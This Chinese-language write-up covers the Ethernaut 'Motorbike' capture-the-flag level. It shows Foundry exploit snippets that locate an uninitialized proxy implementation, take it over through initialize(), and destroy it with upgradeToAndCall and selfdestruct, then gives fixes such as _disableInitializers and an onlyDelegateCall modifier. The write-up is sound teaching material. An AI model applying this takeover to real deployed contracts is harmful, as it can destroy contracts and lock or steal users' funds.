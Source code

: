 # Motorbike

## 题目描述

[原题 in Sepolia](https://ethernaut.openzeppelin.com/level/0x3A78EE8462BD2e31133de2B8f1f9CBD973D6eDd6)

`Motorbike`合约使用代理调用`Engine`合约的逻辑，我们使用`Engine`合约中的逻辑时，将函数调用发送到`Motorbike`合约中，`Motorbike`合约再代理调用`Engine`合约。目标是销毁`Engine`合约，使`Motorbike`合约失效（无法代理调用）。

## 运行

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境后，于本项目下执行下列命令：

```sh
$ cd WTF-CTF

$ forge test -C src/Ethernaut/Motorbike -vvvvv
```

## 功能简述

`Engine`合约并没有`selfdestruct`方法，无法销毁合约。但是`Motorbike`合约在初始化`Engine`合约时，使用的是代理调用，并没有直接合约间调用。也就是说，`Engine`合约并没有初始化。我们只要找到实际的`Engine`合约地址，并将它初始化，

```
 engine = address(uint160(uint256(vm.load(motorbike, _IMPLEMENTATION_SLOT))));
```

将`upgrader`变量赋值为我的地址，

```
 Engine(engine).initialize();
```

然后再调用`upgradeToAndCall`函数

```solidity
 Engine(engine).upgradeToAndCall(address(this), abi.encodeWithSignature("done()"));
 
//function done() public {
//        selfdestruct(address(0));
//}
```

让`Engine`合约代理调用`selfdestruct`方法。即可完成目标。



合约在使用代理时，一定要注意`implementation合约`也进行了必要的初始化，以防止额外的事故发生。

比如在`implementation合约`的构造函数中使用`_disableInitializers()`，[链接](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/proxy/utils/Initializable.sol#L145)

或者在`implementation合约`的函数中使用`onlyDelegateCall函数修饰器`，以保证implementation合约中的函数不会被call。

```solidity
address immutable original;

constructor() {
	original = address(this);
}

modifier onlyDelegateCall() {
	require(address(this) != original);
	_;
}
```

